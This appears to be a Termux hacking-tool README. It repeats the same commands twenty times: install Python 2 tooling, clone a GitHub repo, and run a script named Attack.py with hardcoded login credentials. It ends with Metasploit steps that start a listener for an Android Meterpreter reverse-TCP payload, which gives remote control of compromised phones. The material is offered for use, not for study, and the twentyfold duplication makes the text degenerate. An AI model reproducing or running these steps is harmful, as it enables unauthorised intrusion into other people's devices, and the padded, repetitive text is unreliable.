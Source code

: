 
⭕No 1
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL

⭕No 2
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 3
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 4
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 5
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 6
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 7
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 8
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 9
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL

⭕No 10
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 11
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 12
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 13
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 14
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 15
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 16
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL

⭕No 17
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL
⭕No 18
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL

⭕No 19
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL

⭕No 20
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/MOHRAZILXP/World
cd World
python2 Attack.py

User Name : MOHRAZIL
Password   : MOHRAZIL

#Metasploit Commands
》》Requirements:-

1: Termux App (From Playstore)
2: Good Internet connection  (Must)
3: 2GB free Storage  (Must)
4: Android Version 5.0+ (Must)
5: 4GB+ RAM
6: Fast Processor

#installation

1: pkg update
2: pkg upgrade
3: pkg install unstable-repo
4: pkg install metasploit
5: msfconsole
6: use exploit/multi/handler
7: set payload android/meterpreter/reverse_tcp 
8: set lhost 
8: set lport 8080
10: exploit
